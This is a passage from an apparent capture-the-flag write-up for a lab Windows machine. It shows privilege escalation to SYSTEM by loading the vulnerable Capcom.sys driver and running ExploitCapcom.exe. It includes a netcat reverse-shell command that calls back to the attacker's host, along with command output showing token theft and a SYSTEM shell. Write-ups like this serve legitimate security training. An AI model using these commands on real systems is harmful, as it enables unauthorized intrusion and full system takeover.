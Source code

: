 ```
TCHAR CommandLine[] = TEXT("C:\\test\\netcat.bat");
```

### Privilege Escalation to SYSTEM
First, let us download the Capcom.sys vulnerable driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

First, we would have to load the vulnerable Capcom driver using the EopLoadDriver.exe

```
*Evil-WinRM* PS C:\test> .\EopLoadDriver.exe System/CurrentControlSet\MyService C:\test\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System/CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

To create a reverse shell, we would need to upload nc.exe to our target machine as well as, netcat.bat file that will execute the reverse shell command. The contents of netcat.bat are as follows:

```
c:\temp\nc.exe 10.10.14.195 2222 -e cmd.exe
```

Next, we would have to upload the ExploitCapcom.exe binary to our target machine and execute it. Doing so, will spawn a reverse shell on our listener.

```
*Evil-WinRM* PS C:\test> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000206A8CB0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

### Obtaining root flag

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.193] 50238
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\test>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```
## Post-Exploitation
